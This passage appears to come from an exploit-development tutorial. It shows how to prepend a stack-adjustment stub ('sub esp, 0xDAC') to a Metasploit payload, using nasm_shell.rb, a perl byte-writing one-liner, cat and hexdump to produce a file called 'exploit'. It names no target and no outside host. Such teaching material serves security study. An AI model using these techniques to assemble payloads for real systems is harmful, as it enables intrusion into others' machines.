If we wish to confirm this has successfully outputted to the file we can use the command

`hexdump -C payload_name`
![enter image description here](https://raw.githubusercontent.com/shubham381/Standalone/master/Hex.png)

This will also come in handy when comparing the file against the post stack adjustment version. Next we need to find out what command we actually need to use to adjust the stack -3500 bytes. This can be done using the Metasploit tool nasm_shell.rb, located here /usr/share/metasploit-framework/tools/nasm_shell.rb. Putting in a assembly command will give you the hex machine instruction for that command. Since we want to subtract 3500 (0xDAC in hex) from the stack pointer we do the following,

`ruby /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
`nasm > sub esp, 0xDAC`

![enter image description here](https://raw.githubusercontent.com/shubham381/Standalone/master/nasm.png)

This tells us we need to use the commands 81EC AC0D 0000 to achieve adjusting the stack by 3500. We output this into a raw hex file. You can do it however you wish, such as with a hex editor, but a quick one line example with perl is as follows,

`perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stack_name`

We now have two raw files, stackadj and our payload. We want to combine them both together which is a simple cat command,

`cat stack_name payload_name > exploit`

To confirm we now have the file in a correct format we once more examine it with hexdump and compare it against our previous dump.

`hexdump -C exploit`

![enter image description here](https://raw.githubusercontent.com/shubham381/Standalone/master/Hex2.png)

